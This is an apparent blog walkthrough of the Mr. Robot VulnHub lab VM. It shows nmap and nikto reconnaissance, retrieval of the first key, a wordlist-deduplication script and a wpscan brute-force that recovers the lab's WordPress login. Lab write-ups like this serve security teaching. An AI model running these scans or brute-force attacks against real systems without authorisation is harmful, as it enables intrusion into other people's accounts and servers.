 ```yaml
---
layout: post
author: trent
title: Hacking f_society.
---
```


# Introduction
Mr. Robot is a show on AMC about a disturbed hacker attempting to thwart an omni-present
oligarchy while at the same time trying to suppress a dark alter-ego modeled after his
own father.

Notably, the show tries to portray "hacking" realistically (inasmuch as it can without entire episodes
dedicated to watching Elliot pore over the documentation of a specific vulnerable version
of httpd running on Windows Server 2000), and I appreciate it. Well, mostly.

With that in mind, let's break a Mr. Robot themed VM together, and maybe learn something
about webapp security along the way.

Download the .ova from [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/), pop it
in your favorite virtualization software (hard to go wrong with VirtualBox), and boot it up.
The Mr. Robot VM grabs a DHCP lease on boot, and I'd recommend running it and your offense
box on the same virtual subnet.

# Recon / Scanning
First, let's scan the subnet to find Mr. Robot's VM.

```shell
root@bento:~# nmap -A 10.0.2.0/24
Starting Nmap 7.01 ( https://nmap.org ) at 2016-08-03 23:48 PDT

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:6C:39:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.19
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 10.0.2.5
```


From the scan, we can see the VM is probably serving some sort of web-service.
Before we investigate this further, however, let's run some more scans and see
if we can dig up anything else.

```shell
root@bento:~# nikto -host 10.0.2.5
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.5
+ Target Hostname:    10.0.2.5
+ Target Port:        80
---------------------------------------------------------------------------
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
```

Our nikto scan turns up a bunch of interesting directories, including what looks like
an admin portal for a WordPress site. Definitely worth checking out.

Navigating to the VMs IP in Firefox yields the following page:

![]({{ site.baseurl }}/assets/img/mr_robot.webm)

None of the commands are all that interesting. What is interesting,
however, is the site's robots.txt file:

![]({{ site.baseurl }}/assets/img/robots.png)

Looks like we've got our first key.

```shell
root@bento~# wget http://10.0.2.10/key-1-of-3.txt
--2016-08-06 18:43:14--  http://10.0.2.10/key-1-of-3.txt
Connecting to 10.0.2.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [text/plain]
Saving to: ‘key-1-of-3.txt’

key-1-of-3.txt      100%[===================>]      33  --.-KB/s    in 0s      

2016-08-06 18:43:14 (7.39 MB/s) - ‘key-1-of-3.txt’ saved [33/33]

root@bento~# cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

That's a pretty easy win in my book. I'll take it. Save the .dic file for
later, there's no telling how it will come in handy but I doubt they let
us have it for nothing.

Time to revisit the nikto scan and see if we can turn up anything from the
WordPress directories. Let's start with the login page, /wp-login.php.

# Gaining Access

Poking at the login page with a few default credentials doesn't really reveal
anything interesting. Routing the request/response traffic through Burp also
comes up short. Going back to the .dic file we downloaded earlier, it's pretty
clearly some kind of wordlist. There are many duplicate words in there, however,
so I hacked together a Python script to remove them:

```python
with open('fsocity.dic') as infile: dic = infile.readlines()
dic = set(dic)
fsocity = open('fsocity_sorted.dic', 'w')
for i in dic: fsocity.write("%s" % i)
```

Now, using the sorted wordlist and the username 'Elliot' (the most commonly occurring
username in the .dic file) we can attempt to bruteforce the WordPress login. I'll be
using the wpscan tool for my web cracking.

```shell
root@bento:~# wpscan -u http://10.0.2.10/ --wordlist fsocity_sorted.dic --username Elliot
  Brute Forcing 'Elliot': |===================================
  [+] [SUCCESS] Login : Elliot Password : ER28-0652

  Brute Forcing 'Elliot': |===================================
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | Elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Mon Aug  8 12:57:26 2016
[+] Requests Done: 7853
[+] Memory used: 11.816 MB
[+] Elapsed time: 00:02:09
```

Input the credentials into the login form... and we're in.

-TC
